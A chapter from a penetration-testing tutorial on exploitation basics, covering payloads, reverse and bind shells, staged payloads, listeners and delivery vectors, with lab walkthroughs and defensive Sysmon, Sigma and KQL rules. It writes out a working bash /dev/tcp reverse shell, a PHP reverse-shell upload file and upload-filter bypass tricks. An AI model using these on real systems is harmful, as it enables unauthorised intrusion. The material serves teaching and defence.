









This is Chapter 1 of the Exploitation notebook. Everything before this point in the series has been about *finding* the way in: reconnaissance mapped the attack surface, scanning and enumeration listed services and versions, and vulnerability assessment identified weaknesses worth attacking. This notebook is about *walking through the door* — turning a known weakness into actual code execution on a target, catching the resulting access, and holding onto it. This first chapter builds the vocabulary and mental model the rest of the notebook depends on, because exploitation has more constantly-confused terminology than any other phase.

By the end you will be able to state precisely what an exploit is versus a payload versus shellcode, choose between a reverse and a bind shell and explain why one almost always wins, understand staged versus stageless payloads and when each matters, set up a listener and catch a shell, match a payload to the target's OS and CPU architecture, reason about the main delivery vectors, and understand at a high level why modern payloads are shaped by antivirus and EDR. Later chapters go deep on the tools — public exploits and searchsploit (Chapter 2), Metasploit across four chapters (Chapters 3–6), shell stabilisation and TTYs (Chapter 7), and netcat/socat (Chapter 8). This chapter is the map.

Exploitation is the point where a test stops being observational and starts *changing state on someone else's computer*. That makes authorisation non-negotiable. Everything here assumes an explicit, written, scoped engagement or hardware you own. Running exploits or catching shells on systems you are not authorised to test is unlawful unauthorised-access activity everywhere. Build the lab in Part 12, attack only your own VMs, and keep every command inside that boundary.

---

## Part 1: Where Exploitation Sits in the Kill Chain

Exploitation is a single link in a chain, and it fails without the links around it.



Two definitions frame the whole notebook:

- **Exploitation** is the act of taking advantage of a specific vulnerability (a bug, a misconfiguration, a weak credential) to make the target do something it should not — most often, run code you supply.
- **Initial access** (the foothold) is the *result*: your first controlled execution context on the target, usually a shell or an agent session.

Everything before exploitation narrows the options; everything after builds on the foothold. A clean exploitation phase answers three questions in order:

1. **What will I run?** — the payload (what executes on the target).
2. **How will I get it there and trigger it?** — the exploit / delivery vector.
3. **How will I catch and keep the access?** — the listener/handler and, later, persistence.

Beginners tend to obsess over question 2 (the exploit) and neglect 1 and 3, then "get the exploit to fire" but catch nothing because the payload or listener was wrong. This chapter fixes that by teaching all three as one system.

---

## Part 2: Exploit vs Payload vs Shellcode — The Distinction That Breaks Beginners

These three words are used interchangeably in casual talk and mean very different things.

- **Exploit** — the technique or code that *abuses the vulnerability* to redirect execution. It is the crowbar. Example: a buffer overflow that overwrites a return address, or an unauthenticated file-upload that lets you place a script. The exploit's only job is to get *your* code running.
- **Payload** — the code that *runs once the exploit succeeds* and does what you actually want (open a shell, add a user, beacon to your C2). It is what the crowbar lets you deliver. Example: a reverse-shell payload.
- **Shellcode** — a specific, low-level form of payload: raw machine-code bytes, position-independent, designed to be injected directly into a process's memory by a memory-corruption exploit. All shellcode is a payload; not all payloads are shellcode (a payload can also be a `.exe`, a Python one-liner, a PHP file, a PowerShell command).



A concrete mapping to make it stick:

| Component | Buffer-overflow example | Web-app example |
|---|---|---|
| Vulnerability | unchecked `strcpy` | unrestricted file upload |
| Exploit | overflow return address with your address | uploading `shell.php` and browsing to it |
| Payload | reverse-shell shellcode | PHP `system($_GET['c'])` code |
| Delivery | the malicious network packet | the HTTP upload request |
| Result | shell on the box | web-server RCE |

The reason this matters operationally: you choose the exploit to match the *vulnerability*, but you choose the payload to match the *target OS/architecture and your goal*, and you choose the listener to match the *payload*. Three independent choices. Metasploit (Chapters 3–6) formalises exactly this separation — you pick an `exploit/...` module and then set a compatible `payload/...` — which is why understanding the split now makes Metasploit obvious later.

---

## Part 3: Shells and Sessions

A **shell** is a command interpreter (`/bin/bash`, `cmd.exe`, `powershell.exe`). In exploitation, "getting a shell" means obtaining the ability to run commands on the target through one of these interpreters over the network. A **session** is the connection/state that carries that access — Metasploit calls its managed connections "sessions", and a Meterpreter session is a special agent that is richer than a raw shell.

Two properties classify any shell you get:

- **Interactive vs non-interactive.** An interactive shell supports features like job control, tab completion, `sudo` password prompts, `su`, text editors, and paging. A raw caught shell is usually *non-interactive* and dumb — it breaks on `sudo`, `ssh`, `vi`, and Ctrl-C kills the whole connection. Chapter 7 is entirely about *upgrading* a dumb shell into a full interactive TTY.
- **Privilege level.** The shell runs as whatever account the exploited process ran as — `www-data`, `NT AUTHORITY\SYSTEM`, a service account, or an unprivileged user. Your first shell is rarely root/SYSTEM; privilege escalation is a separate phase.



Knowing which kind of shell you hold changes what you can do next. A dumb `www-data` shell can enumerate and stage priv-esc but can't cleanly run interactive tools; that's why *stabilising* the shell (Chapter 7) is usually the very first post-foothold action.

---

## Part 4: Reverse vs Bind Shells

This is the most important operational choice in getting a foothold, and Chapter 7 goes deep — but you need the model now because payload selection depends on it.

### Bind shell

The **target** opens a listening port and waits; **you** connect to it.



- Target listens, attacker connects *inbound to the target*.
- **Fails when** the target is behind NAT or a firewall that blocks inbound connections to it — which is almost always the case for internal hosts and anything behind a perimeter.

### Reverse shell

**You** open a listener; the **target** connects back *out* to you.



- Attacker listens, target connects *outbound to the attacker*.
- **Works when** the target can't accept inbound connections but *can* make outbound ones — which is the normal situation, because egress firewall rules are usually far looser than ingress, especially on common ports like 443 and 80.

### Which to choose

| Factor | Bind shell | Reverse shell |
|---|---|---|
| Who listens | target | attacker |
| Direction | attacker → target (inbound) | target → attacker (outbound) |
| Beats target-side NAT/ingress FW | no | **yes** |
| Needs attacker reachable | no | **yes** |
| Default choice | rarely | **usually** |

**Reverse shells win almost every time** because outbound egress is usually permitted while inbound to an internal host is not. You use a bind shell only when *you* can't be reached (e.g. you're behind NAT and the target is public and unfirewalled) — a much rarer situation. Pick your listening port to blend with allowed egress: **443** and **80** sail through most egress filters where **4444** gets dropped or flagged.

---

## Part 5: Staged vs Stageless Payloads

Payloads come in two delivery architectures, and the distinction shows up constantly in Metasploit and msfvenom naming.

- **Stageless (a.k.a. "inline" / single):** the entire payload is one self-contained blob. It runs, connects back, and gives you a shell in one shot. Bigger on the wire, but simple and robust — nothing else needs to arrive.
- **Staged:** the payload is split. A tiny first-stage **stager** is delivered by the exploit; it connects back and *downloads the rest* (the larger second **stage**, e.g. full Meterpreter) into memory, then runs it. Smaller initial footprint (fits where exploit space is tight, like a small buffer), but needs the second stage to transfer successfully.

Metasploit encodes this in the payload name with a punctuation tell:

```
windows/x64/meterpreter/reverse_tcp     <- STAGED   ("/" before reverse_tcp)
windows/x64/meterpreter_reverse_tcp     <- STAGELESS ("_" joins it)
```

The **slash `/`** before the transport means staged; the **underscore `_`** means stageless. This tiny difference trips up learners endlessly, so memorise it: `meterpreter/reverse_tcp` (staged) vs `meterpreter_reverse_tcp` (stageless).



When to prefer which:

| Situation | Prefer |
|---|---|
| Tiny exploit buffer / limited space | **staged** (small stager fits) |
| Unreliable/slow network for 2nd stage | **stageless** (one transfer) |
| Simple listener, robustness matters | **stageless** |
| Full Meterpreter with minimal initial footprint | **staged** |

A critical gotcha: the *listener must match the payload*. A staged payload needs a **staged handler** (Metasploit's `multi/handler` with the matching staged payload set); a bare netcat listener catches a *stageless* shell but **cannot** serve the second stage of a staged Meterpreter — you'll get a connection that immediately dies. This mismatch is one of the most common "my shell connected then disconnected" problems (Chapter 4 revisits it).

---

## Part 6: Matching the Payload to the Target

A payload is machine- and OS-specific. Deliver a Linux ELF payload to Windows and nothing runs; deliver x64 shellcode to an x86 process and it crashes. Before choosing a payload, you must know:

- **Operating system:** Windows, Linux, macOS, Android, or a specific appliance OS. Determines the payload family (`windows/…`, `linux/…`, `osx/…`).
- **CPU architecture:** x86 (32-bit) vs x64 (64-bit) vs ARM/ARM64/MIPS. A mismatch usually means an instant crash or nothing at all.
- **Available interpreters:** even without a native payload, a target with `python`, `bash`, `perl`, `php`, `powershell`, or `nc` can host a one-line script payload. This is why "language" reverse shells exist.
- **Egress path:** which outbound ports/protocols the target can reach you on (drives reverse-shell port choice; drives HTTP(S) vs raw TCP transport).

You gather these from the enumeration phase: OS/arch from Nmap `-O`/service banners, interpreters from what's installed (visible once you have any code exec), and egress by testing which ports call back.

| Target signal | Payload implication |
|---|---|
| Windows x64 | `windows/x64/...`, `.exe`, PowerShell one-liners |
| Linux x64 | `linux/x64/...`, ELF, bash/python/perl one-liners |
| Web server (PHP) | PHP webshell / PHP reverse shell |
| Java app server | JSP/WAR payload |
| macOS | `osx/...` / bash/python one-liner |
| Locked-down egress | HTTPS transport on 443, small stager |

**The universal one-liners** (covered fully in Chapters 7–8) are the fallback when no native payload fits — e.g. a bash `/dev/tcp` reverse shell, a Python `socket`+`pty` reverse shell, a PHP `exec`, or PowerShell's `TCPClient`. They work anywhere the interpreter exists and are the bread and butter of CTF and real-world footholds alike.

---

## Part 7: Delivery Vectors — Getting the Payload to Execute

The exploit's job is to trigger the payload, but *how* you deliver it varies enormously by target. The major vectors:

- **Direct memory-corruption exploit:** the classic case — a buffer overflow or use-after-free injects shellcode into a vulnerable process over the network. No file touches disk. (Chapter 2/3 tooling.)
- **Web application RCE:** file upload of a webshell, command injection, deserialization, template injection, or SSTI — the payload rides in an HTTP request. Ubiquitous on web-heavy targets.
- **Malicious document / macro:** an Office doc with a VBA macro or a crafted PDF that runs a payload when opened — the classic phishing initial-access vector for internal engagements/red teams.
- **Service / protocol abuse:** a vulnerable network service (SMB, RDP, a database, an outdated daemon) exploited directly, or credential-based execution (PsExec/WinRM once you have creds — Chapters 4/6).
- **Physical / removable media:** a USB drop (BadUSB, malicious autorun, LNK payloads) for on-site engagements.
- **Supply-chain / trusted delivery:** a poisoned update, dependency, or shared file — advanced red-team territory.



Each vector constrains the payload: a web upload wants a webshell in the server's language; a macro wants a PowerShell/`mshta` one-liner; a tiny overflow buffer wants a staged shellcode. The delivery vector and the payload are chosen together, not independently.

---

## Part 8: Listeners and Handlers — Catching the Shell

A reverse shell is useless if nothing is listening when the target calls back. The **listener** (a.k.a. **handler**) is the attacker-side program that accepts the incoming connection and gives you the interactive prompt.

Three listener types, in increasing capability:

- **netcat** (`nc -lvnp <port>`): the simplest listener; catches raw reverse shells (stageless, plain command shells). Cannot serve staged payloads or Meterpreter. Perfect for language one-liners. (Chapter 8.)
- **socat**: a smarter netcat that can give you an encrypted, fully-interactive PTY listener — a big shell-stability upgrade. (Chapters 7–8.)
- **Metasploit `multi/handler`**: the listener that matches *any* Metasploit payload, including staged Meterpreter. You set the same `PAYLOAD`, `LHOST`, `LPORT` you built the payload with, and it catches and manages the session. (Chapter 4.)

The cardinal rule: **the listener must match the payload.**

| Payload | Correct listener |
|---|---|
| bash/python/php/nc reverse one-liner (stageless cmd shell) | `nc -lvnp` or socat |
| `windows/x64/meterpreter/reverse_tcp` (staged) | Metasploit `multi/handler`, same payload set |
| `windows/x64/meterpreter_reverse_tcp` (stageless) | `multi/handler` (stageless) — **not** plain nc |
| shell_reverse_tcp (raw) | `nc` or `multi/handler` |

A mismatch produces the classic failure: the connection lands and instantly dies (nc catching a staged Meterpreter can't send the stage), or you get raw gibberish. When a shell "connects and drops," suspect a listener/payload mismatch first.

**Set the listener up BEFORE you fire the exploit.** The target calls back the instant the payload runs; if your listener isn't ready, the connection is lost and you may not get a second chance. The discipline is: start listener → verify it's listening → deliver/trigger payload → catch shell.

---

## Part 9: A First Worked Foothold (Lab)

Concrete, reproducible, and lab-only. We'll catch a Linux reverse shell using nothing but netcat and a bash one-liner — the simplest possible end-to-end foothold, so the moving parts are visible.

### Setup

Two VMs on a host-only network: **attacker** (Kali, `10.10.10.5`) and **target** (any Linux you control, `10.10.10.20`). We'll simulate "the exploit gave us a way to run one command on the target."

### Step 1 — Attacker: start the listener FIRST

```bash
# -l listen, -v verbose, -n no DNS, -p port; 443 blends with HTTPS egress
nc -lvnp 443
# listening on [any] 443 ...
```

### Step 2 — Target: run the reverse-shell payload

This is the single command the exploit would deliver. It opens a bash session over a TCP socket back to the attacker:

```bash
bash -i >& /dev/tcp/10.10.10.5/443 0>&1
```

Breaking it down (every piece matters):

- `bash -i` — start an **i**nteractive bash.
- `>& /dev/tcp/10.10.10.5/443` — redirect **both** stdout and stderr to bash's special `/dev/tcp` pseudo-device, opening a TCP connection to the attacker on 443.
- `0>&1` — redirect stdin (fd 0) to the same socket, so what you type on the attacker reaches the target's shell.

### Step 3 — Attacker: catch it

```
connect to [10.10.10.5] from (UNKNOWN) [10.10.10.20] 39114
id
uid=1000(bob) gid=1000(bob) groups=1000(bob)
hostname
target
```

You now have a (dumb, non-interactive) shell as `bob`. Notice the tells: no prompt, and `sudo`/`vi`/Ctrl-C would misbehave — exactly the "dumb shell" from Part 3.

### Step 4 — Verify and stabilise (preview of Chapter 7)

Upgrade to a proper TTY so the shell is usable:

```bash
# On the caught shell:
python3 -c 'import pty; pty.spawn("/bin/bash")'
# then background with Ctrl-Z, and on the attacker:
stty raw -echo; fg
# press Enter; now you have job control, tab completion, and can run sudo/vi
export TERM=xterm
```

This four-step loop — listen, deliver, catch, stabilise — is the skeleton of *every* foothold in this notebook, whether the payload came from a bash one-liner, msfvenom, or a Metasploit exploit.

### Scenario B — Web upload to shell (the other most common foothold)

The other foothold you'll meet constantly is a web app that lets you upload a file into a directory the server will execute. Here's the full loop on a PHP target (lab-only).

Step 1 — write a minimal PHP reverse shell (`sh.php`):

```php
<?php
// lab-only PHP reverse shell
$ip = '10.10.10.5'; $port = 443;
$sock = fsockopen($ip, $port);
exec('/bin/sh -i <&3 >&3 2>&3');
?>
```

Step 2 — start the listener:

```bash
nc -lvnp 443
```

Step 3 — upload `sh.php` through the vulnerable upload form, then browse to it to trigger execution:

```bash
# upload via the app's form, then:
curl http://10.10.10.20/uploads/sh.php
```

Step 4 — catch the shell:

```
connect to [10.10.10.5] from (UNKNOWN) [10.10.10.20] 51544
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Notice the privilege: you land as `www-data`, not root — the web server's account. That's the norm, and it's why privilege escalation is its own phase. The *delivery vector* differed (HTTP upload vs a delivered command), but the payload/listener/catch model is identical to Scenario A — which is the whole point of learning the model rather than memorising one technique.

### Common upload-filter bypasses (so the upload lands)

Apps often try to block `.php`. Quick bypasses to know (web notebook goes deeper):

- Alternate extensions: `.php3`, `.php5`, `.phtml`, `.phar` (often still executed).
- Double extension: `shell.php.jpg` where the server keys on the first.
- Content-Type spoof: set `Content-Type: image/png` on a `.php` upload.
- Magic bytes: prepend `GIF89a;` so a content check thinks it's an image.
- Null byte (legacy): `shell.php%00.jpg`.

Each of these is about getting the payload *written to disk in an executable location*; once it's there, browsing to it is the trigger.

---

## Part 10: Encoding, Obfuscation, and the AV/EDR Reality

Modern targets run antivirus (AV) and Endpoint Detection & Response (EDR) that inspect files, memory, and behaviour. A default payload (especially a stock Metasploit one) is signatured and will be caught instantly on a defended host. Three concepts you need now (Chapter 5 goes deep with msfvenom):

- **Encoding** transforms the payload bytes (e.g. Metasploit's classic `shikata_ga_nai`) to avoid bad characters and *lightly* alter signatures. **Encoding is not encryption and not real AV evasion** — modern AV decodes and detects it. Its original purpose was bad-char avoidance (e.g. stripping null bytes an exploit can't carry), not stealth.
- **Obfuscation / packing / crypters** more aggressively transform or encrypt the payload so static signatures miss it, decrypting at runtime. This is a real evasion technique but an arms race.
- **Behavioural detection (EDR)** watches what the payload *does* — spawning `cmd.exe` from Word, injecting into `lsass`, beaconing on a schedule — and catches even novel binaries by behaviour. This is why "FUD" (fully undetectable) is temporary and why tradecraft (living-off-the-land, in-memory execution, sensible parent processes) matters more than any one packer.



For this notebook's scope (authorised testing, often against deliberately-vulnerable or lightly-defended lab targets), you'll frequently use stock payloads. But keep the reality in mind: on a real, EDR-defended enterprise host, a default `msfvenom` `.exe` dies on write, and the interesting work is delivery and evasion, not the exploit. **Blue-team framing:** everything in this part is exactly what defenders tune — signature feeds catch encoded stock payloads, and behavioural rules catch the *actions*, which is why detection engineering targets behaviour over bytes.

---

## Part 11: Detection & Defense Angle

Exploitation and foothold activity is noisy if you know where to look. Defenders break the chain at delivery, execution, and callback:

- **Block delivery.** Egress filtering (deny arbitrary outbound; allow only proxied 80/443) kills most reverse shells and forces attackers onto detectable proxied channels. Application allow-listing (only approved binaries run) stops dropped `.exe` payloads. Macro restrictions and attachment sandboxing stop document delivery.
- **Catch execution.** EDR and Sysmon flag suspicious process trees: `w3wp.exe`/`httpd` spawning `cmd.exe`/`bash`, Office spawning PowerShell, `powershell -enc <base64>`, and unusual `/dev/tcp` or `nc` usage. Command-line logging (Sysmon EID 1, PowerShell script-block logging) is the single richest source.
- **Catch the callback.** A server process making an *outbound* connection is abnormal — web servers serve, they don't dial out. NDR/flow monitoring on egress catches beacons; a shell on 4444 is a gift, and even 443 beacons have tell-tale periodicity (JA3/TLS fingerprints, constant-size packets).
- **Reduce the blast radius.** Run services as least-privilege accounts so a `www-data` foothold isn't SYSTEM; segment networks so a foothold can't reach the whole estate.

| Attacker action | Defender signal |
|---|---|
| reverse shell callback | server process makes outbound conn; odd port; beacon periodicity |
| dropped payload `.exe` | new unsigned binary; app-allowlist block; AV write-time detection |
| web upload webshell | new file in web root; `httpd` spawning a shell; anomalous POST |
| macro delivery | Office → PowerShell/mshta child process (Sysmon EID 1) |
| staged Meterpreter | second-stage download; in-memory injection (EID 8/10) |

The recurring theme: a foothold requires a process to do something it never normally does (a web server dialling out, Word launching PowerShell), and that *behavioural anomaly* is what mature detection keys on — far more reliable than chasing payload bytes.

### Detection rules you can actually deploy

The behavioural anomalies above translate into concrete rules. A Sysmon config that logs the right things is the foundation:

```xml
<!-- Sysmon: log process creation and network connections from server processes -->
<RuleGroup name="ProcCreate" groupRelation="or">
  <ProcessCreate onmatch="include">
    <ParentImage condition="end with">w3wp.exe</ParentImage>   <!-- IIS spawning children -->
    <ParentImage condition="end with">httpd</ParentImage>
    <ParentImage condition="end with">WINWORD.EXE</ParentImage> <!-- Office spawning children -->
    <Image condition="end with">powershell.exe</Image>
    <Image condition="end with">cmd.exe</Image>
  </ProcessCreate>
</RuleGroup>
```

A Sigma-style detection for the classic "web server spawns a shell" (webshell foothold):

```yaml
title: Web Server Spawning Shell
logsource: { category: process_creation }
detection:
  parent:
    ParentImage|endswith: ['\w3wp.exe','\httpd.exe','/httpd','/nginx']
  child:
    Image|endswith: ['\cmd.exe','\powershell.exe','/bin/sh','/bin/bash']
  condition: parent and child
level: high
```

The KQL for a server process making an outbound connection (reverse-shell callback):

```kusto
DeviceNetworkEvents
| where InitiatingProcessFileName in~ ("w3wp.exe","httpd","nginx","sqlservr.exe")
| where RemoteIPType == "Public" or RemotePort in (4444, 1337, 9001)
| project Timestamp, DeviceName, InitiatingProcessFileName, RemoteIP, RemotePort
```

These three artefacts — Sysmon logging, a Sigma rule, a KQL hunt — are exactly what a blue team stands up to catch the footholds this chapter teaches. Building them yourself is the fastest way to understand *why* attackers move to HTTPS transports, sane parent processes, and in-memory execution: they're dodging precisely these rules.

---

## Part 12: Building the Exploitation Lab

- **Two-VM minimum:** a Kali attacker and one or more vulnerable targets on an **isolated host-only network** with no route to the internet or your real LAN.
- **Deliberately vulnerable targets:** Metasploitable 2/3, VulnHub boxes, TryHackMe/HackTheBox machines, DVWA/OWASP Juice Shop for web, and Windows eval VMs for the AD/Windows chapters.
- **Snapshots:** snapshot each target clean before exploiting so you can roll back and repeat — exploitation often breaks the target.
- **Know your IPs:** record attacker `LHOST` and target IP every session; wrong `LHOST` is the number-one reason a reverse shell never arrives.
- **Practice the listener discipline:** always start the handler first; verify with `ss -tlnp`/`netstat` that it's listening before triggering.
